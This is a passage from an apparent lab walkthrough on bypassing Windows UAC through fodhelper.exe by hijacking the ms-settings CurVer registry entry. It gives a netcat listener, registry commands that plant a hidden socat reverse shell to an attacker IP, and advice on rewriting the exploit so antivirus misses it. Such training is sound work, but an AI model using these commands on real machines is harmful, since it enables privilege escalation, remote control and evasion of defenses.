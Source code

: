 This exploit creates a new progID with the name **.pwn** and associates our payload to the command used when opening such files. It then points the CurVer entry of ms-settings to our .pwn progID. When fodhelper tries opening an ms-settings program, it will instead be  pointed to the .pwn progID and use its associated command.

This technique is more likely to evade Windows Defender since we have more liberty on where to put our payload, as the name of the progID  that holds our payload is entirely arbitrary. Let's start a new reverse  shell on our attacker's machine:

```
nc -lvp 4445
```

And execute the exploit from our backdoor connection as is. As a  result, Windows Defender will throw another alert that references our  actions:![img]()

![img](./assets/36a12bfed5c44fedf170f934bd4bc9ca.png)

Although we are still detected, it is essential to note that sometimes the detection methods used by AV software are implemented strictly against the published exploit,  without considering possible variations. If we translate our exploit  from Powershell to use cmd.exe, the AV won't raise any alerts (be sure to replace your IP address where needed):

- **Command Prompt**        

```shell-session
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
        
```

